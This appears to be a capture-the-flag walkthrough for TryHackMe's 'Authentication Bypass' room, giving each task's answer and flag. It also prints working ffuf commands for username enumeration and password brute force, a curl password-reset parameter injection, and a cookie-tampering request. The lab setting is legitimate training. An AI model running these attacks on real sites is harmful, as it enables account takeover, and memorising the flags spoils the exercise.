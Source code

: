 Link to room: https://tryhackme.com/room/authenticationbypass

# Questions:

- Task 1
	- I have started the machine.
		- No answer needed

- Task 2
	- What is the username starting with si*** ?
		- Simon
	- What is the username starting with st*** ?
		- Steve
	- What is the username starting with ro**** ?
		- Robert

	- Command used:
		- ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://xx.xx.xxx.xxx/customers/signup -mr "username already exists"
	- Results
		- ![username](username.PNG)

- Task 3
	- What is the valid username and password (format: username/password)?
		- steve/thunder ![bruteforce](brute.PNG)

	- Command used:
		- ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://xx.xx.xxx.xxx/customers/login -fc 200
	- File needed:
		- ![valid_usernames](valid_usernames.txt)

- Task 4	
	- What is the flag from Robert's support ticket?
		- How to get the flag?
			1. http://xx.xx.xxx.xxx/customers/signup
			2. curl 'http://xx.xx.xxx.xxx/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm' ![Ticket_A](your_ticket.PNG)
			3. URL in ticket
			4. Open Robert's ticket ![Robert_ticket](robert_ticket.PNG)
		- Flag
			- THM{AUTH_BYPASS_COMPLETE} 

- Task 5
	- What is the flag from changing the plain text cookie values?
		- THM{COOKIE_TAMPERING} 
		- How to get answer
			- curl -H "Cookie: logged_in=true; admin=true" http://xx.xx.xxx.xxx/cookie-test
	- What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
		- 463729
		- How to get answer
			- https://crackstation.net/
			- Insert hash into field and press crack hashes
	- What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?
		- THM{BASE64_ENCODING}
		- How to get answer
			- https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=VkVoTmUwSkJVMFUyTkY5RlRrTlBSRWxPUjMwPQ
	- Encode the following value using base64 {"id":1,"admin":true}
		- eyJpZCI6MSwiYWRtaW4iOnRydWV9
		- How to get answer
			- https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=eyJpZCI6MSwiYWRtaW4iOnRydWV9

